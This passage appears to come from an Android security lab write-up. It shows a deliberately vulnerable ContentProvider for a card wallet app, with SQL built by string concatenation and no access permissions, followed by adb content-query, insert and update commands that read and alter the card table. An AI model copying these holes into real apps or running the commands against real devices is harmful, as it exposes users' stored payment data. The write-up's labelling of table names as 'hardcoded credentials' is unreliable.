        DatabaseHelper dbHelper = new DatabaseHelper(context);
        this.db = dbHelper.getWritableDatabase();
        return this.db != null;
    }

    @Override // android.content.ContentProvider
    public Uri insert(Uri uri, ContentValues values) {
        long rowID = this.db.insert(CARDS_TABLE_NAME, "", values);
        if (rowID > 0) {
            Uri _uri = ContentUris.withAppendedId(CONTENT_URI, rowID);
            getContext().getContentResolver().notifyChange(_uri, null);
            return _uri;
        }
        throw new SQLException("Failed to add a record into " + uri);
    }

    @Override // android.content.ContentProvider
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
        SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
        qb.setTables(CARDS_TABLE_NAME);
        switch (uriMatcher.match(uri)) {
            case 1:
                qb.setProjectionMap(CARDS_PROJECTION_MAP);
                break;
            case 2:
                qb.appendWhere("_id=" + uri.getPathSegments().get(1));
                break;
            default:
                throw new IllegalArgumentException("Unknown URI " + uri);
        }
        if (sortOrder == null || sortOrder == "") {
            sortOrder = NAME;
        }
        Cursor c = qb.query(this.db, projection, selection, selectionArgs, null, null, sortOrder);
        c.setNotificationUri(getContext().getContentResolver(), uri);
        return c;
    }

    @Override // android.content.ContentProvider
    public int delete(Uri uri, String selection, String[] selectionArgs) {
        int count;
        switch (uriMatcher.match(uri)) {
            case 1:
                count = this.db.delete(CARDS_TABLE_NAME, selection, selectionArgs);
                break;
            case 2:
                String id = uri.getPathSegments().get(1);
                count = this.db.delete(CARDS_TABLE_NAME, "_id = " + id + (!TextUtils.isEmpty(selection) ? " AND (" + selection + ')' : ""), selectionArgs);
                break;
            default:
                throw new IllegalArgumentException("Unknown URI " + uri);
        }
        getContext().getContentResolver().notifyChange(uri, null);
        return count;
    }

    @Override // android.content.ContentProvider
    public int update(Uri uri, ContentValues values, String selection, String[] selectionArgs) {
        int count;
        switch (uriMatcher.match(uri)) {
            case 1:
                count = this.db.update(CARDS_TABLE_NAME, values, selection, selectionArgs);
                break;
            case 2:
                count = this.db.update(CARDS_TABLE_NAME, values, "_id = " + uri.getPathSegments().get(1) + (!TextUtils.isEmpty(selection) ? " AND (" + selection + ')' : ""), selectionArgs);
                break;
            default:
                throw new IllegalArgumentException("Unknown URI " + uri);
        }
        getContext().getContentResolver().notifyChange(uri, null);
        return count;
    }

    @Override // android.content.ContentProvider
    public String getType(Uri uri) {
        switch (uriMatcher.match(uri)) {
            case 1:
                return "vnd.android.cursor.dir/vnd.example.cards";
            case 2:
                return "vnd.android.cursor.item/vnd.example.cards";
            default:
                throw new IllegalArgumentException("Unsupported URI: " + uri);
        }
    }
}
```

Vulnerabilities in the `VulnerableProvider` Class:

1. **SQL Injection Risk:**
   - Lack of parameterized queries in the `query` method.
2. **Insecure URI Handling:**
   - Insufficient validation in `delete`, `update`, and `query` methods.
3. **No Input Validation:**
   - Absence of proper user input validation.
4. **Weak Database Security:**
   - Missing encryption for sensitive database data.
5. **Missing Content Provider Permissions:**
   - Lack of defined permissions for data access.
6. **Hardcoded Credentials:**
   - Hardcoded database-related constants - `DATABASE_NAME` and `CARDS_TABLE_NAME`

Open the app on the device and interact with it, entering some test data.

Use `adb` to test the app's database.

- full control of the database, manipulate it

```bash
adb shell
su

# Return database
content query --uri content://com.elearnsecurity.provider.Wallet/cards

# Return only one column
content query --uri content://com.elearnsecurity.provider.Wallet/cards --projection name

# Return specific row
content query --uri content://com.elearnsecurity.provider.Wallet/cards --where "name='Ash'"

# Insert a new name and card
content insert --uri content://com.elearnsecurity.provider.Wallet/cards --bind name:s:Dre --bind number:i:99999

# Update the content
content update --uri content://com.elearnsecurity.provider.Wallet/cards --bind number:i:99999 --where "name='Tina'"
```



---

